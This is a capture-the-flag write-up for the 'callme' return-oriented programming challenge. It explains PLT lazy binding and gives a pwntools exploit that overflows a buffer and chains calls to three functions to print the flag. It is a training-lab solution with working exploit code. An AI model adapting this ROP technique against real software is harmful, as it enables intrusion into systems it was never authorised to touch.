 # Description

### Failure is not an option

How do you make consecutive calls to a function from your ROP chain that won't crash afterwards? If you keep using the call instructions already present in the binary your chains will eventually fail. Consider why this might be the case.

### Procedure Linkage

The Procedure Linkage Table (PLT) is used to resolve function addresses in imported libraries at runtime, it's worth reading up about it and how lazy binding works. Even better, go ahead and step through the lazy linking process in a debugger, it's important you understand what resides at the addresses reported to you by commands like `rabin2 -i` and  `rabin2 -R`

### Correct order

I'll tell you the following:
You must call the `callme_one()` , `callme_two()` and `callme_three()`  functions in that order, each with the arguments 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d e.g.  callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)  to print the flag.

The solution here is simple enough, use your knowledge about what resides in the PLT to call the `callme_`  functions in the above order and with the correct arguments.

Don't get distracted by the incorrect calls to these functions made in the binary, they're there to ensure these functions get linked. You can also ignore the .dat files and encrypted flag in this challenge, they're there to ensure the functions must be called in the correct order.

## Solution
We just need to call the three functions with the correct arguments and we get back the flag. Ez pz.

```python
from pwn import *

context.binary = "./callme"
r = ROP(context.binary)
p = process()
r.callme_one(0xDEADBEEFDEADBEEF, 0xCAFEBABECAFEBABE, 0xD00DF00DD00DF00D)
r.callme_two(0xDEADBEEFDEADBEEF, 0xCAFEBABECAFEBABE, 0xD00DF00DD00DF00D)
r.callme_three(0xDEADBEEFDEADBEEF, 0xCAFEBABECAFEBABE, 0xD00DF00DD00DF00D)
p.send(b"A" * 8 * 5 + r.chain())
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```